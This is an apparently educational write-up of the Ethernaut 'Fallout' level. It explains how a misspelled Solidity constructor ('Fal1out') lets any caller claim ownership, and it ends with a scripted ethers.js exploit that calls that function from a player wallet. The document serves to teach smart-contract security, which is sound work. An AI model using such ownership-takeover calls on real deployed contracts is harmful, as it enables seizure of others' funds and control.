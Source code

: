 ```yaml
---
description: In Ethernaut's Fallout, we learn a quick lesson about constructor syntax.
---
```


# 2 - Fallout

To complete [this level](https://ethernaut.openzeppelin.com/level/0x5732B2F88cbd19B6f01E3a96e9f0D90B917281E5) we need to claim ownership of its `Fallout` contract.

### Hints

<details>

<summary>Hint One</summary>

The only function in the contract that assigns a value to `owner` is its "constructor", `Fal1out`. Is this function really what it seems?

</details>

<details>

<summary>Hint Two</summary>

If Fal1out was a real constructor, this challenge would not be solvable.

</details>

### Full Walkthrough

#### Claiming Ownership

The `owner` of this contract is set in its "constructor" function `Fal1out` and not reassigned elsewhere in the contract. Note that despite being labelled the constructor in the comment above, this function is not actually the valid constructor for this contract and will not run when it is deployed. If it were a valid constructor, there would be no way for us to take ownership of the contract after it was deployed by another address.

```solidity
/* constructor */
function Fal1out() public payable {
  owner = msg.sender;
  allocations[owner] = msg.value;
}
```

In some versions of Solidity prior to 0.4.21, a constructor could be defined by naming a function the same name as its contract. This contract, however, is being compiled as version 0.6.0 or higher, and therefor this "constructor" will not run when the contract is deployed.

```solidity
pragma solidity ^0.6.0;
```

Additionally, it is worth noting that the function name does not actually match the contract's name as the function's second "l" is actually the number 1.

Any address that calls the `Fal1out` function will become the contract's owner.

{% hint style="info" %}
**Transactions and calldata**

Coming soon...
{% endhint %}

### Scripted Solution

```javascript
const fs = require('fs')
const ethers = require('ethers')
require('dotenv').config({ path: './.env' })

/**
 * Initialize Ethers objects needed to interact with the blockchain and
 * contract.
 */
async function setup(contractName) {
  // Create provider - a read-only abstraction to access blockchain data
  const provider = new ethers.providers.InfuraProvider(process.env.NETWORK)
  // Create player wallet
  const playerWallet = new ethers.Wallet(process.env.PRIVATE_KEY)
  // Create player wallet signer - an abstraction of an Ethereum account
  const playerWalletSigner = await playerWallet.connect(provider)
  // Create contract instance - an abstraction of the deployed contract code
  const contractAbi = fs.readFileSync(`./${contractName}.abi`, 'utf8')
  const contract = new ethers.Contract(
    process.env.CONTRACT_ADDRESS,
    contractAbi,
    playerWalletSigner
  )

  return { provider, playerWallet, playerWalletSigner, contract }
}

/**
 * Run contract exploit.
 */
async function main() {
  // Get Ethers objects needed to interact with the blockchain and contract
  const { playerWallet, contract: falloutContract } = await setup('Fallout')

  // Check Fallout contract's owner
  console.log(
    `Fallout contract owner is initially: ${await falloutContract.owner()}`
  )

  // Call Fallout contract's 'Fal1out' function
  console.log("Calling Fallout contract's 'Fal1out' function...")
  const falloutFal1out = await falloutContract.Fal1out()
  await falloutFal1out.wait(1)

  // Check Fallout contract's new owner
  const falloutContractOwner = await falloutContract.owner()
  console.log(`Contract owner is now: ${falloutContractOwner}`)
  console.log(
    `Contract owner is player: ${falloutContractOwner === playerWallet.address}`
  )
}

main()
  .then(() => process.exit(0))
  .catch((error) => {
    console.error(error)
    process.exit(1)
  })

```

### Key Takeaways

* Some older versions of Solidity allowed for **constructors** to be defined as functions with the **same name as the contract** itself.
* Even a single, simple **syntax error** can become a **security disaster**.
